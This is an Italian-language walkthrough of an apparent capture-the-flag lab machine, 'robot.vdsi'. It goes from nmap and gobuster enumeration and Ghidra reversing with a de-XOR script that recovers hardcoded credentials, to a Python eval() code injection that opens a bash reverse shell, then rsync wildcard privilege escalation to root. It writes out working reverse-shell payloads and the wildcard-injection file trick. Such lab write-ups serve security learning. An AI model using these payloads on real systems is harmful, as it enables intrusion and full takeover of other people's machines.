 
prima cosa da fare : 
- nmap -sP <mio_ip>/24 per trovare l'ip della macchina target

poi nmap su macchina target con :
- nmap -sn -sC -sV <target_ip>

ci sono le porte 22,80,443, 8080,8081,8082 aperte, come possiamo vedere dalla seguente immagine

```shell
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-14 12:01 CEST
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 83.33% done; ETC: 12:01 (0:00:02 remaining)
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 95.34% done; ETC: 12:01 (0:00:00 remaining)
Nmap scan report for 10.0.2.5
Host is up (0.000061s latency).
Not shown: 994 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 5b:a3:21:7d:5d:a5:e9:0f:97:12:4f:ec:11:2c:70:a4 (RSA)
|   256 88:9a:df:c4:40:4a:21:97:f9:70:6b:81:7a:52:6b:76 (ECDSA)
|_  256 64:06:54:cd:e5:5d:df:d5:e1:c5:86:68:0e:40:01:60 (ED25519)
80/tcp   open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Welcome to nginx!
443/tcp  open  ssl/http nginx 1.18.0 (Ubuntu)
| tls-alpn:
|_  http/1.1
| ssl-cert: Subject: commonName=robot.vdsi/organizationName=VDSI/stateOrProvinceName=Lazio/countryName=IT
| Not valid before: 2021-07-20T11:23:27
|_Not valid after:  2022-07-20T11:23:27
| tls-nextprotoneg:
|_  http/1.1
|_http-title: Welcome to nginx!
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_ssl-date: TLS randomness does not represent time
8080/tcp open  http     nginx 1.18.0 (Ubuntu)
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
8081/tcp open  http     nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
8082/tcp open  http     nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
MAC Address: 08:00:27:5E:8E:E7 (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.96 seconds
```

Navighiamo su http://10.0.2.5 e troviamo la pagina di benvenuto di nginx

Eseguiamo un gobuster sul sito e ci trova un endpoint "/connector", lo scarichiamo e lo apriamo con ghidra

Ghidra ci fa vedere il file decompliato, e da come possiamo vedere nel main viene eseguita la funzione `cryptHelper`, che cripta username e password usando determinati dati

Da come possiamo vedere, dopo aver usato al funzione cryptHelper, il risultato viene controllato e confrontato con due variaibli globali : 
- `DAT_0001207b`
- `DAT_00012085`

Che indicano rispettivamente username e password

Clicchiamo su ognugno ed evidenziamo i byte, poi tasto destro -> copy special -> python list, e il risultato dovrebbe essere il seguente

`[ 0x30, 0x0d, 0x13, 0x2e, 0x09, 0x16, 0x24, 0x0d, 0x17, 0x00 ]`

Stessa cosa la facciamo con l'altro dato, e poi usiamo questi dati in uno script python per effettuare il de-xor dei dati, il file si chiama dexor.py, ed è il seguente

```python
ENC_USERNAME = [0x30, 0x0D, 0x13, 0x2E, 0x09, 0x16, 0x24, 0x0D, 0x17, 0x00]
ENC_PASSWORD = [
    0x10,
    0x5B,
    0x13,
    0x78,
    0x09,
    0x49,
    0x24,
    0x5B,
    0x17,
    0x1B,
    0x51,
    0x5D,
    0x70,
    0x1F,
    0x0A,
    0x39,
    0x01,
    0x00,
]

KEY = "TheKey"

def de_xor(encrypted, key) -> str:

    key_idx = 0
    plaintext = ""
    for c in encrypted:
        plaintext += chr(ord(key[key_idx % len(key)]) ^ c)
        key_idx += 1
    return plaintext


print(
    f"username: {de_xor(ENC_USERNAME, KEY)[:-1]}, password:{de_xor(ENC_PASSWORD, KEY)[:-1]}"
)
```

lo eseguiamo e otteniamo delle credenziali, ovvero : 
- Username : `developer`
- Password : `D3v3l0p3rP4$$word`

Con queste credenziali proviamo ad entrare in ssh, ma non ci fa accedere, quindi dobbiamo fare un ulteriore enumerazione

Avevamo visti dalla scansione nmap che c'era un common name, ovvero `robot.vdsi`. Questo ci suggerisce la presenza di un virtual host.

(Se la scansione non va e da problemi del tipo : `dial tcp:lookup robot.vdsi no such host`, si rimedia cosi : 
- Aprire /etc/host
- Aggiungere <target_ip> robot.vdsi)

Proviamo ad enumerare con gobuster, e troviamo un vhost chiamato calculator.robot.vdsi (anche questo va aggiungo come robot.vdsi)

Una volta entrati ci chiede username e password, e qui possiamo usare quelli trovati prima

Controlliamo il codice sorgente della pagina, e troviamo un commento che ci dice che la pagina è stata scritta in python, quindi potrebbe usare la funzione `eval()` che sappaimo essere vulnerabile al **code injection**

Usiamo ciò per prendere la shell

Scriviamo questo nel campo che verrà preso in input : 
- `__import__('os').system("/bin/bash -c 'sh -i >& /dev/tcp/<tuo_ip>/<porta> 0>&1'")`

Dopo aver ottenuto la reverse shell, lanciamo il comando 

>**"python3 -c 'import pty;pty.spawn("/bin/bash")'"**

per spawnare una shell funzionante

Ora siamo l'utente blunder, e dobbiamo fare privilege escalation

Vediamo che nella cartella backup_container ci sono un crontab e un file chiamato backup.sh, nel file backup.sh vediamo che viene seguito il comando rsync -a * (la presenza di wildcart ci assicura un possibile exploit)

Vedendo online abbiamo trovato che si può fare la wildcard exploitations, e con rsync basta fare questo

- 1) creiamo un file shell.sh, al cui interno mettiamo la seguente stringa 
	- `bash -c 'bash -i >& /dev/tcp/<tuo_ip>/<porta> 0>&1'`
- 2) poi lanciamo il comando `touch -- '-e sh shell.sh'` e attendiamo la connessione

Una volta presa la shell con netcat, saremo utente ROOT